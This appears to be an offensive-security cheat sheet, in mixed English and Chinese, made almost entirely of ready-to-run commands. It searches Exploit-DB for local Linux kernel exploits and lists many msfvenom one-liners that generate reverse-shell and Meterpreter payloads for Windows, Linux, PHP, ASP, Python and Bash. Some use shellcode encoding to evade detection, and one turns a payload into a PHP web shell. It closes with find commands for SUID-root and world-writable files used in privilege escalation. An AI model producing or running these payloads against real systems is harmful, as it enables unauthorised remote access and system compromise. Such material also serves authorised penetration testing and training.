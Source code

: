 git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u
./searchsploit apache 2.2
./searchsploit "Linux Kernel"

cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
MSF Payloads

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
MSF 生成在 Linux 下反弹的 Meterpreter Shell

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
MSF 生成反弹 Shell (C Shellcode)

msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
MSF 生成反弹 Python Shell

msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
MSF 生成反弹 ASP Shell

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
MSF 生成反弹 Bash Shell

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
MSF 生成反弹 PHP Shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
MSF 生成反弹 Win Shell

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
Linux 常用安全命令

# 使用 uid 查找对应的程序
find / -uid 0 -perm -4000

# 查找哪里拥有写权限
find / -perm -o=w

